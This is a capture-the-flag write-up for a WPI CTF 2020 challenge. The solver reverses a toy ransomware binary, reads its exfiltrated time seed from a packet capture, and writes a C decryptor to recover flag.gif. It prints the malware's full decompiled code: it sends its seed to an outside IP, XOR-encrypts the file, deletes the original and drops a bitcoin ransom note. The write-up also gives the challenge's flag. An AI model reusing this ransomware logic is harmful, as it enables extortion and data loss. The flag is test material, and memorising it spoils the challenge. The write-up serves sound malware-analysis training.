




# NotWannaSigh

## WPI CTF 2020 Reverse Engineering challenge, 100 points

### Challenge author: Abjuri5t

#### Solver: N4T_20
```
NotWannasigh
100

Please help! An evil script-kiddie (seriously, this is some bad code) was able to get this ransomware "NotWannasigh" onto one of our computers. The program ran and encrypted our file "flag.gif".

These are the resources we were able to gather for you:

    NotWannasigh.zip - the malicious ransomware executable
    flag-gif.EnCiPhErEd - our poor encrypted file that we need you to recover
    ransomNote.txt - the note left behind by the ransomware. I'm not sure you'll find anything usefull here
    192-168-1-11_potential-malware.pcap - a packet capture that our IDS isolated, it seems that the program has some weird form of data exfiltration

We need you to reverse the malware and recover our flag.gif file. Good luck!

A note from the creator: Shoutout to Demonslay335 for challenge inspiration - he's done some awesome work in fighting ransomware. Also, the ransomware in this challenge is programmed to only target files named "flag.gif" so you shouldn't need to worry about the accidental execution, I just zipped it out of habit/good practice. Have fun and happy hacking!

    Abjuri5t (John F.)

http://us-east-1.linodeobjects.com/wpictf-challenge-files/192-168-1-11_potential-malware.pcap

http://us-east-1.linodeobjects.com/wpictf-challenge-files/ransomNote.txt

http://us-east-1.linodeobjects.com/wpictf-challenge-files/flag-gif.EnCiPhErEd

http://us-east-1.linodeobjects.com/wpictf-challenge-files/NotWannasigh.zip
```
## Reconnaissance

This is a fun little reverse engineering challenge from [WPI CTF 2020](https://ctf.wpictf.xyz/challenges#NotWannasigh). It's a malware reverse engineering challenge, so that should be good practice for me. We have a [64-bit Linux binary](./NotWannasigh), and a [PCAP file](./192-168-1-11_potential-malware.pcap) containing some data relevant to the attack. I need to figure out how the flag got encrypted and write some code to undo the encryption. First things first, I'm going to throw `Ghidra` at  this problem. I jumped in, looked at what functions were getting imported, and started by going to the code that calls `socket`, figuring that would be the malware phoning home. In this case that put me right back in the code for `main`, as the code wasn't too large, but in general that's a useful technique for reversing more complicated malware.

Here's `Ghidra`'s decompiled code for `main`:

```
undefined8 main(void)

{
  byte bVar1;
  int iVar2;
  ssize_t sVar3;
  long lVar4;
  long lVar5;
  long alStack240 [4];
  undefined8 local_d0;
  char local_c2 [10];
  sa_family_t local_b8;
  uint16_t local_b6;
  in_addr_t local_b4;
  FILE *local_a0;
  FILE *local_98;
  byte local_89;
  long *local_88;
  long local_80;
  long *local_78;
  long local_70;
  uint local_64;
  FILE *local_60;
  int local_54;
  time_t local_50;
  int local_44;
  int local_40;
  int local_3c;

  alStack240[0] = 0x101279;
  local_50 = time((time_t *)0x0);
  alStack240[0] = 0x101288;
  srand((uint)local_50);
  alStack240[0] = 0x10129c;
  local_54 = socket(2,1,0);
  if (local_54 == -1) {
    alStack240[0] = 0x1012b1;
    puts("could not create socket");
  }
  else {
    alStack240[0] = 0x1012c2;
    puts("created socket");
    alStack240[0] = 0x1012ce;
    local_b4 = inet_addr("108.61.127.136");
    local_b8 = 2;
    alStack240[0] = 0x1012e7;
    local_b6 = htons(0x50);
    alStack240[0] = 0x101307;
    iVar2 = connect(local_54,(sockaddr *)&local_b8,0x10);
    if (iVar2 < 0) {
      alStack240[0] = 0x101317;
      puts("connect error");
    }
    else {
      alStack240[0] = 0x101325;
      puts("connected");
      alStack240[0] = 0x101344;
      sprintf(local_c2,"%d",local_50);
      alStack240[0] = 0x10135f;
      sVar3 = send(local_54,local_c2,10,0);
      if (sVar3 < 0) {
        alStack240[0] = 0x101370;
        puts("send failed");
      }
      else {
        alStack240[0] = 0x10137e;
        puts("sent");
      }
    }
  }
  alStack240[0] = 0x10138a;
  puts("targetting flag.gif");
  alStack240[0] = 0x10139d;
  local_60 = fopen("flag.gif","r+");
  alStack240[0] = 0x1013b7;
  fseek(local_60,0,2);
  alStack240[0] = 0x1013c3;
  lVar4 = ftell(local_60);
  local_64 = (uint)lVar4;
  alStack240[0] = 0x1013dc;
  fseek(local_60,0,0);
  alStack240[0] = 0x1013f2;
  printf("fileSize = %d\n",(ulong)local_64);
  local_70 = (long)(int)local_64 + -1;
  alStack240[3] = (long)(int)local_64;
  local_d0 = 0;
  lVar4 = SUB168((ZEXT816(0) << 0x40 | ZEXT816((long)(int)local_64 + 0xf)) / ZEXT816(0x10),0);
  local_78 = alStack240 + lVar4 * 0x1ffffffffffffffe + 1;
  local_44 = 0;
  while (local_44 < (int)local_64) {
    alStack240[lVar4 * 0x1ffffffffffffffe] = 0x10145c;
    iVar2 = rand(*(undefined *)(alStack240 + lVar4 * 0x1ffffffffffffffe));
    ((undefined *)local_78)[(long)local_44] = (char)iVar2;
    local_44 = local_44 + 1;
  }
  alStack240[lVar4 * 0x1ffffffffffffffe] = 0x10148d;
  puts("key generated by 256",*(undefined *)(alStack240 + lVar4 * 0x1ffffffffffffffe));
  local_80 = (long)(int)local_64 + -1;
  alStack240[1] = (long)(int)local_64;
  alStack240[2] = 0;
  lVar5 = SUB168((ZEXT816(0) << 0x40 | ZEXT816((long)(int)local_64 + 0xf)) / ZEXT816(0x10),0);
  local_88 = alStack240 + lVar4 * 0x1ffffffffffffffe + lVar5 * 0x1ffffffffffffffe + 1;
  local_40 = 0;
  while( true ) {
    alStack240[lVar4 * 0x1ffffffffffffffe + lVar5 * 0x1ffffffffffffffe] = 0x101529;
    iVar2 = fgetc(local_60,*(undefined *)
                            (alStack240 + lVar4 * 0x1ffffffffffffffe + lVar5 * 0x1ffffffffffffffe));
    local_89 = (byte)iVar2;
    if ((int)local_64 <= local_40) break;
    ((undefined *)local_88)[(long)local_40] = ((undefined *)local_78)[(long)local_40] ^ local_89;
    local_40 = local_40 + 1;
  }
  alStack240[lVar4 * 0x1ffffffffffffffe + lVar5 * 0x1ffffffffffffffe] = 0x101543;
  fclose(local_60,*(undefined *)
                   (alStack240 + lVar4 * 0x1ffffffffffffffe + lVar5 * 0x1ffffffffffffffe));
  alStack240[lVar4 * 0x1ffffffffffffffe + lVar5 * 0x1ffffffffffffffe] = 0x10154f;
  remove("flag.gif",
         *(undefined *)(alStack240 + lVar4 * 0x1ffffffffffffffe + lVar5 * 0x1ffffffffffffffe));
  alStack240[lVar4 * 0x1ffffffffffffffe + lVar5 * 0x1ffffffffffffffe] = 0x101562;
  local_98 = fopen("flag-gif.EnCiPhErEd",&DAT_001020ae,
                   *(undefined *)
                    (alStack240 + lVar4 * 0x1ffffffffffffffe + lVar5 * 0x1ffffffffffffffe));
  local_3c = 0;
  while (local_3c < (int)local_64) {
    bVar1 = ((undefined *)local_88)[(long)local_3c];
    alStack240[lVar4 * 0x1ffffffffffffffe + lVar5 * 0x1ffffffffffffffe] = 0x101593;
    fputc((uint)bVar1,local_98,
          *(undefined *)(alStack240 + lVar4 * 0x1ffffffffffffffe + lVar5 * 0x1ffffffffffffffe));
    local_3c = local_3c + 1;
  }
  alStack240[lVar4 * 0x1ffffffffffffffe + lVar5 * 0x1ffffffffffffffe] = 0x1015ae;
  fclose(local_98,*(undefined *)
                   (alStack240 + lVar4 * 0x1ffffffffffffffe + lVar5 * 0x1ffffffffffffffe));
  alStack240[lVar4 * 0x1ffffffffffffffe + lVar5 * 0x1ffffffffffffffe] = 0x1015c1;
  local_a0 = fopen("ransomNote.txt",&DAT_001020ae,
                   *(undefined *)
                    (alStack240 + lVar4 * 0x1ffffffffffffffe + lVar5 * 0x1ffffffffffffffe));
  alStack240[lVar4 * 0x1ffffffffffffffe + lVar5 * 0x1ffffffffffffffe] = 0x1015e8;
  fwrite(
         "Haha! Your precious file flag.gif has been encrypted by my new and improved ransomwareNotWannasigh! You must send bitcoin to \"bitpay.com/83768\" to get the decryption key. Youshould act fast because in 48 hours I will delete the key. Muahahahaha!\n -def-not-h4ckah\n\n(Hi, CTF challenge creator here. You should _NEVER_ pay the ransom. Ifyou send bitcoin to that BTC wallet then you will ONLY be donating to charity (and hey,that\'s really nice of you, Mental Health Hackers is a great organization). I will NOTsend you the decryption key)\n"
         ,1,0x21d,local_a0,
         *(undefined *)(alStack240 + lVar4 * 0x1ffffffffffffffe + lVar5 * 0x1ffffffffffffffe));
  alStack240[lVar4 * 0x1ffffffffffffffe + lVar5 * 0x1ffffffffffffffe] = 0x1015f7;
  fclose(local_a0,*(undefined *)
                   (alStack240 + lVar4 * 0x1ffffffffffffffe + lVar5 * 0x1ffffffffffffffe));
  return 0;
}
```

That gives me a quick gist of things. The code generates a random seed, then phones home, then opens the `flag.gif` file, does something, writes to the [enciphered flag file](./flag-gif.EnCiPhErEd), and finally generates the ransom note and exits. From that I can infer that it's probably the random seed that gets sent back to the attacker, and that's all the attacker would need to undo the encryption. Surely this is not how actual ransomware works, as the user could brute force the random seed to undo the attack. Still, with a larger random seed, it may be possible to use exactly this sort of code to create ransomware.

In any case, when reversing this more closely I ended up going to `Ida Pro` for better information. The `Ghidra` decompiler leaves much to be desired here.

Okay, a bit more detail...what happens is that the system time is used as an integer to generate a random seed. The program sends the string representation of that integer as a ten-byte payload back to the attacker, and that's the only exfiltration that takes place. So to undo the attack, I indeed just need to take that integer and use it to recreate the seed, and use the seed to reverse whatever scrambling happens next in the code.

I went to the PCAP file next to get the random seed used to encrypt the flag file. Here it is:



Easy enough. Next, I decided to encrypt a file where I knew what the plaintext was in order to better reverse the challenge file. So I modified the binary using the `bless` hex editor to send exfiltrated data to `localhost` (i.e. `127.0.0.1` instead of `108.61.127.136`), then I listened on `localhost` to record the random seed. Here's the result:



That gives me the desired string so I can reverse the encryption, great. Next I put `gdb` in the middle of the encryption to watch how it works going forwards. The code is compiled with position independent execution (PIE), so I could not stop at a specific breakpoint but rather I stopped at `main` and stepped forward from there. Here's the simple Python code:

```python
# Reverse NotWannaSigh
from pwn import *

p = gdb.debug('/home/ctf/Documents/WPICTF2020/RE/WannaSigh/test/NotWannasigh',
	'''
	break main
	continue
	''')

p.interactive()
```

The first part of the encryption function generates random bytes. In particular, enough space is allocated on the stack to store one byte for every byte of the GIF, then for each byte in the GIF, a random integer is generated, and the lower eight bits of that integer are saved to the stack. Making note of the random seed generated for this iteration by reading it off the stack with `gdb`, I was able to reproduce the same bytes in C that I was looking at on the stack as follows:

```C
# include <stdio.h>
# include <stdlib.h>
int main(){
	srand(1587317623);
	printf("your integer is %d",1587317623);
	for (int i = 0; i < 10; i++){
		printf("i = %d and rand = %x\n",i,rand()%256);
	}
	return 0;
}
```
(In my case 1587317623 was the random seed generated by the encryption algorithm.)

Next, the program does something with these random bytes and the flag. I took a glance at the disassembled code in IDA Pro, and it looks like these random bytes just get xored with the bytes in the file!



I didn't step into this part of the code to verify that the bytes getting xored together on the right in that screenshot really are the random bytes on the stack and the bytes in the GIF. But I decided to treat this like an efficient reverse engineer / hacker would and just guess what the program does at this point to get a solution faster. And if it didn't do what I think it did I could come back and step through with a debugger. So I had enough information to just test this with a few bytes from the front of the file and a few bytes from the back.

I had my C code spit out a random byte for every byte of my flag file now instead of the first ten bytes, and then wrote down the first four and the last four random bytes. Then I opened up the encrypted GIF file and my original GIF file in hex editors, and confirmed that each of the first four and last four bytes in the original file, xored with the equivalent random bytes, gives me the encrypted GIF file. Decryption is then easy -- just xor the encrypted bytes with the random byte to get back the plaintext.

Now I had all the information I need to reverse my test file, and then the actual flag file.

Here's my [code](./reverse_notwannasigh.c) to solve the challenge:

```C
# include <stdio.h>
# include <stdlib.h>
int main(){
	int file_length; // = 0xd5074;
	FILE * rp;
	FILE * wp;
	//srand(1587317623);
	srand(1585599106);
	rp = fopen("flag-gif.EnCiPhErEd","rb");
	wp = fopen("flag.gif","wb");
	fseek(rp, 0, SEEK_END);
	file_length = ftell(rp);
	fseek(rp, 0, SEEK_SET);
	for(int i = 0; i < file_length; i++){
		char tmp = rand()%256;
		fputc(fgetc(rp)^tmp,wp);
	}
	fclose(rp);
	fclose(wp);
	return 0;
}
```

And the [flag](./flag.gif) is:


`WPI{It_always_feels_a_little_weird_writing_malware}`

I enjoyed this challenge, it felt like the author reverses malware for a living and this binary was intended to be simple but realistic. I liked the PCAP included with the challenge, that was a nice touch. Thanks everyone!
